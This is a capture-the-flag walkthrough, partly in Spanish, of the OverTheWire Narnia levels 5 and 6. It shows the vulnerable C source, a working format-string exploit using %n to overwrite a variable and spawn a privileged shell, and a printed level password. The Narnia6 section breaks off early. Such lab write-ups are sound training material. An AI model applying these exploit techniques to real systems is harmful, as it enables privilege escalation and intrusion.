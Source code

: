 ## Narnia5
ssh narnia5@narnia.labs.overthewire.org -p 2226
~~~
cd /narnia/
./narnia5
~~~
vemos el codigo fuente
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
~~~
necesitamos encontrar la posición de AAAA en la pila
~~~
./narnia5 AAAA%08x.%08x.%08x.%08x.%08x.%08x
./narnia5 $(python -c 'print "AAAA" + "%1$n"')
./narnia5 $(python -c 'print "\xc0\xd6\xff\xff" + "%496x%1$n"')
whoami
cat /etc/narnia_pass/narnia6

neezocaeng
~~~

## Narnia6
ssh narnia6@narnia.labs.overthewire.org -p 2226
~~~
cd /narnia/
./narnia6
./narnia6 123 456
~~~
codigo fuente

